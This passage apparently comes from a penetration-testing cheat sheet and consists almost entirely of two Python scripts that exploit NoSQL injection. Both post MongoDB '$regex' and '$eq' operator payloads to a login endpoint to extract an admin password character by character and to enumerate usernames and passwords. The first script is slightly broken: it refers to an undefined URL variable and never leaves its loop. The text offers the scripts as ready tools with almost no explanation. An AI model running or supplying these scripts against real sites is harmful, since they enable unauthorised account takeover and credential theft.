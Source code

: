 ```
```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password=""

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|']:
            payload='{"username": {"$eq": "%s"}, "password": {"$regex": "^%s" }}' % (username, password + c)
            r = requests.post(u, data = {'ids': payload}, verify = False)
            if 'OK' in r.text:
                print("Found one more char : %s" % (password+c))
                password += c
```
```
### Brute-force login usernames and passwords from POST login

This is a simple script that you could modify but the previous tools can also do this task.

```python
import requests
import string

url = "http://example.com"
headers = {"Host": "exmaple.com"}
cookies = {"PHPSESSID": "s3gcsgtqre05bah2vt6tibq8lsdfk"}
possible_chars = list(string.ascii_letters) + list(string.digits) + ["\\"+c for c in string.punctuation+string.whitespace ]

def get_password(username):
    print("Extracting password of "+username)
    params = {"username":username, "password[$regex]":"", "login": "login"}
    password = "^"
    while True:
        for c in possible_chars:
            params["password[$regex]"] = password + c + ".*"
            pr = requests.post(url, data=params, headers=headers, cookies=cookies, verify=False, allow_redirects=False)
            if int(pr.status_code) == 302:
                password += c
                break
        if c == possible_chars[-1]:
            print("Found password "+password[1:].replace("\\", "")+" for username "+username)
            return password[1:].replace("\\", "")

def get_usernames(prefix):
    usernames = []
    params = {"username[$regex]":"", "password[$regex]":".*"}
    for c in possible_chars:
        username = "^" + prefix + c
        params["username[$regex]"] = username + ".*"
        pr = requests.post(url, data=params, headers=headers, cookies=cookies, verify=False, allow_redirects=False)
        if int(pr.status_code) == 302:
            print(username)
            for user in get_usernames(prefix + c):
                usernames.append(user)
    return usernames
```